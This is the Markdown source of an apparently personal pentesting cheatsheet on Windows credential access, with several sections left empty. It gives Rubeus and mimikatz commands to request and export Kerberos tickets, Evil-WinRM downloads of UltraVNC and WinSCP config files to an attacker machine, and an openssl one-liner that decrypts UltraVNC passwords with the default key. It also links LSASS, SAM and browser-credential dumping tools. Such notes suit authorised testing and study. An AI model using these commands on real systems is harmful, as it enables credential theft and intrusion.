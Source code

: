 ```yaml
---
layout: post
title: TA0006 Credentials Access - Windows
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2023-03-13
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [Multi-features Hacking Tools](#Multi-featuresHackingTools)
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [Which OS ? What Creds ?](#WhichOSWhatCreds)
	* [Rubeus](#Rubeus)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)
* [Services](#Services)
* [Scheduled Tasks](#ScheduledTasks)
* [Sofwares](#Sofwares)
	* [Automated](#Automated)
	* [mRemoteNG](#mRemoteNG)
	* [xVNC](#xVNC)
	* [WinSCP](#WinSCP)
	* [Putty](#Putty)
	* [Web Browsers](#WebBrowsers)
* [NTDS.dit dump](#NTDS.ditdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='Multi-featuresHackingTools'></a>Multi-features Hacking Tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

### <a name='WhichOSWhatCreds'></a>Which OS ? What Creds ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: 
* [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)

### <a name='Rubeus'></a>Rubeus 

- [Wiki](https://github.com/GhostPack/Rubeus)
- Compilation :
```powershell
# compilation
```

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='LSASS.exedump'></a>LSASS.exe dump

- [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/) 🔥
- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

## <a name='SAMdump'></a>SAM dump

- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## <a name='Services'></a>Services

## <a name='ScheduledTasks'></a>Scheduled Tasks

## <a name='Sofwares'></a>Sofwares

### <a name='Automated'></a>Automated

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='mRemoteNG'></a>mRemoteNG

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xVNC'></a>xVNC

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='WinSCP'></a>WinSCP

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```

### <a name='Putty'></a>Putty

### <a name='WebBrowsers'></a>Web Browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## <a name='NTDS.ditdump'></a>NTDS.dit dump